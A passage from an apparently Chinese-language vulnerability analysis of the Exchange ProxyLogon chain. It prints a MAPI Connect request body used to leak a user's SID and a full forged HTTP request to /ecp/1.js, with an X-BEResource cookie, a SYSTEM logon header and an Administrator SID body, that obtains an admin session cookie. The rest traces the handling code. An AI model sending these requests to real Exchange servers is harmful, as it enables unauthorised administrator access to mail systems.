 ![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-5af887ad25015549044a6eebb93b2a3877263225.png)

POST 请求格式为

```php
legacyDn + "\x00\x00\x00\x00\x00\xe4\x04\x00\x00\x09\x04\x00\x00\x09\x04\x00\x00\x00\x00\x00\x00"
```

一个正常的Connect类型请求如图所示，包含UserDn等多个字段，其中UserDn指的是用户在该域中的专有名称（Distinguish Name），该字段已被我们通过上一步骤的请求中得到。该Connect类型请求通过解析后会将相关参数交给Exchange RPC服务器中的EcDoConnectEx方法执行。由于发起请求的RPC客户端的权限为SYSTEM，对应的SID为S-1-5-18，与请求中给出的DN所对应的SID不匹配，于是响应中返回错误信息，该信息中包含了DN所对应的SID，从而达到了目的。

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-a989837119486f9654531c5f089208ba16e76761.png)

### 使用sid获取cookie

请求包

```php
POST /ecp/1.js HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: X-BEResource=Administrator@win-v2jneuvoljv.test.com:444/ecp/proxyLogon.ecp?#~1941962753
Content-Type: text/xml
Content-Length: 256
msExchLogonMailbox: S-1-5-18

<r at="Negotiate" ln="Administrator"><s>S-1-5-21-254742065-2746332885-3299130760-500</s><s a="7" 
    t="1">S-1-1-0</s><s a="7" t="1">S-1-5-2</s><s a="7" t="1">S-1-5-11</s><s a="7" t="1">S-1-5-15</s><s 
    a="3221225479" t="1">S-1-5-5-0-6948923</s></r> 
```

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-e5063cc2caf72a26ebbea409eb53c12e2bb86397.png)

在该物理路径下的.NET应用配置文件`web.config`中定义了不同路径的HTTP请求对应的处理函数，检索可知路径`proxyLogon.ecp`是由`ProxyLogonHandler`来处理的，然而对相应的dll进行反编译后发现该`Handler`仅修改了HTTP响应的状态码。

![img](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-cb190828b7bc59aba543706d2acd55c751477196.png)

最终通过调试后发现，真正与`msExchEcpCanary`以及`ASP.NET_SessionId`相关的代码是在类`RbacModule`中的，通过`web.config`可以看到`RbacModule`作为应用的其中一个模块用于处理HTTP请求。

![img](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-e186324a0cd3670b9b6d44473e8d781f23193614.png)

在该模块中由函数`Application_PostAuthenticateRequest`具体实现对HTTP请求的解析。相关关键代码如下，首先函数根据`httpContext`生成`AuthenticationSettings`实例。

![img](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-a13a0a8a42a78885401fb378f9cdab344486472d.png)
